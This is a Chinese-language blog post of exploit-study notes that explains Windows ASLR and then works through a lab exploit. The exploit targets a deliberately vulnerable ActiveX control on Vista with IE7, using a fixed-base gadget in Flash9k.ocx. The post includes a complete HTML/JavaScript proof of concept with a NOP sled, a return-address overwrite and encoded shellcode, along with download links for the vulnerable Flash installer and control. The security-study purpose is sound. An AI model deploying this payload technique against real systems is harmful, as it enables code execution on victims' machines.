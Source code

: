 ```yaml
---
title: 漏洞学习笔记-017-ASLR简介
description: ASLR技术的介绍和简单攻击思路
slug: exploit-017
date: 2020-11-24 21:12:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/p/exploit-017/)

## ASLR技术简介

> 纵观前面介绍的所有漏洞利用方法都有着一个共同的特征：都需要确定一个明确的跳转地址。无论是JMP ESP等通用跳板指令还是Ret2Libc使用的各指令，我们都要先确定这条指令的入口点。所谓惹不起躲得起，微软的ASLR(Address Space Layout Randomization)技术就是通过加载程序的时候不再使用固定的基址加载，从而干扰shellcode定位的一种保护机制
>
> 实际上ASLR的概念在Windows XP时代就已经提出来了，只不过XP上面的ASLR功能很有限，只是对PEB和TEB进行了简单的随机化处理，而对于模块的加载基址没有进行随机化处理，直到Windows Vista出现后，ASLR才真正开始发挥作用
>
> 与SafeSEH类似ASLR的实现也需要程序自身的支持和操作系统的双重支持，其中程序的支持不是必需的

- 支持ASLR的程序在它的PE头中会设置`IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE`标识来说明其支持ASLR。微软从Visual Studio 2005 SP1开始加入了`/dynamicbase`链接选项来帮我们完成这个任务，我们只需要在编译程序的时候启用`/dynmicbase`链接选项，编译好的程序就支持ASLR了

### 映像随机化

- 映像随机化是在PE文件映射到内存时，对其加载的虚拟地址进行随机化处理，这个地址是在系统启动时确定的，系统重启后这个地址会变化
- 可能是出于兼容性的考虑，微软在系统中设置了映像随机化的开关，用户可以通过设置注册表中`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionM anager\MemoryManagement\MoveImages`的键值来设定映像随机化的工作模式
  - 设置为`0`时映像随机化将禁用
  - 设置为`−1`时强制对可随机化的映像进行处理，无论是否设置`IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE`标识
  - 设置为其他值时为正常工作模式，只对具有随机化处理标识的映像进行处理
  - 如果注册表中不存在`MoveImages`，大家可以手工建立名称为`MoveImages`，类型为`DWORD`的值，并根据需要设置它的值

### 堆栈随机化

- 这项措施是在程序运行时随机的选择堆栈的基址，与映像基址随机化不同的是堆栈的基址不是在系统启动的时候确定的，而是在打开程序的时候确定的，也就是说同一个程序任意两次运行时的堆栈基址都是不同的，进而各变量在内存中的位置也就是不确定的
- 将以下程序在VS2008中编译，在XP和Vista上分别运行两次，得到如下图的结果

```cpp
int main()
{
  char* heap = (char *)malloc(100);
  char stack[100];
  printf("Address of heap:%#0.4x\nAddress of stack:%#0.4x", heap, stack);
  getchar();

  return 0;
}
```

![Windows Vista](https://s3.ax1x.com/2020/11/24/DtT6JK.png)
![Windows XP](https://s3.ax1x.com/2020/11/24/DtTyi6.png)

- 可以看出，Vista上堆地址相去甚远，而XP上完全相同

### PEB和TEB的随机化

- 获取当前进程的TEB和PEB很简单，TEB存放在`FS:0`和`FS:[0x18]`处，PEB存放在TEB偏移`0x30`的位置，可以通过如下代码来获取当前进程的TEB和PEB

```cpp
int main()
{
    unsigned int teb;
    unsigned int peb;

    __asm
    {
        mov eax, FS:[0x18]
        mov teb, eax
        mov eax, dword ptr[eax+0x30]
        mov peb, eax
    }
    printf("PEB:%#x\nTEB:%#x", peb, teb);
    getchar();

    return 0;
}
```

- 在Vista上测试运行，结果如图

![PEB/TEB-random-Vista](https://s3.ax1x.com/2020/11/24/DtL3Ct.png)

- 可以看出，效果非常差劲，PEB地址只随机化了一个字节，而且还是非常有规律，TEB基本没变过

### ASLR的缺陷

- 不难看出，ASLR随机化映像的时候，虽然模块的加载基址改变了，但是各个模块的入口点的低位两个字节是不会改变的，举例：原基址：`0x00401234`，随机化后基址变为：`0x67291234`，因此可以以此攻击它

## 攻击未启用ASLR的模块

### 准备工作

> 实验环境：Windows Vista SP0，IE7，Adobe Flash Player 9.0.124

- 虽然书上要求使用9.0.262版本，但是实在是找不到，就以9.0.124来替代了，[点此下载](https://pan.moeomu.com/Tutorial/0Day安全-资料/flashplayer9r124_winax.exe)
- 存在漏洞的OCX控件在之前的实验中已经编译了一个了，因此就使用那个了，[点此下载](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX_SEH.ocx)，此控件ctrl class object id：`ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### 步骤

- 重启系统查看ASLR模块启用情况

![ASLR未启用情况](https://s3.ax1x.com/2020/11/26/D0Nlod.png)

- 实验控件未启用GS
- 通过IE7加载POC页面和Flash9k.ocx
- 函数test存在栈溢出漏洞，目标是覆盖函数的 返回地址
- 因为Flash9k.ocx未启用ASLR因此加载基址固定，可以在里面搜寻合适的跳板指令跳转到shellcode
- IE7的DEP是关闭的，因此不考虑DEP的影响
- 因为通过覆盖函数返回地址实现攻击，因此最佳的跳板指令是JMP ESP
- `0x301D606B`也是`JMP ESP`，执行后将会跳转到字符串的头部，但是问题是`6B 60 1D 30`四个字节正好构成一句汇编指令`imul esp,dword ptr ds:[eax+0x1D],0x30`，它将会把后两个操作数相乘，随后放到第一个操作数中，因此需要保持`[eax+0x1D]`的值是正确的，而目前eax并未指向有效地址，因此需要修复eax
- 很可惜，没有找到合适的修复eax的指令，换地址
- `0x303911D3`也是`JMP ESP`，但它组成的汇编代码将会同时读取EC和EAX的内容，因此这两个寄存器都需要修复，不可行，换指令
- `JMP ESP`没有，改用`JMP ESI`，地址`0x3000DCD2`中包含0，直接排除，地址`0x302420C3`最后一个字节是retn，无法使用，排除，地址`0x3028EE6E`汇编代码将直接引起异常，排除，此指令也没有合适的了，因此寻找其它合适指令
- 位于地址`0x300942F2`的`CALL ESP`貌似正合适，它也会将esp增加8个字节正好避开了垃圾数据
- 以下是改变以后的shellcode

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
<param name="movie" value="1.swf" />
<param name="quality" value="high" />
<embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260">
</embed>
</object>

<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	var s = "\u9090";

	while (s.length < 54)
	{
		s += "\u9090";
	}

	s += "\u42F2\u3009";
	s += "\u9090\u9090";
	s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";

	test.test(s);
</script>

</body>
</html>
```

- 如图，重启系统，shellcode运行正常，这意味着攻击ASLR成功

![shellcode运行成功](https://s3.ax1x.com/2020/11/26/D0oYUH.png)
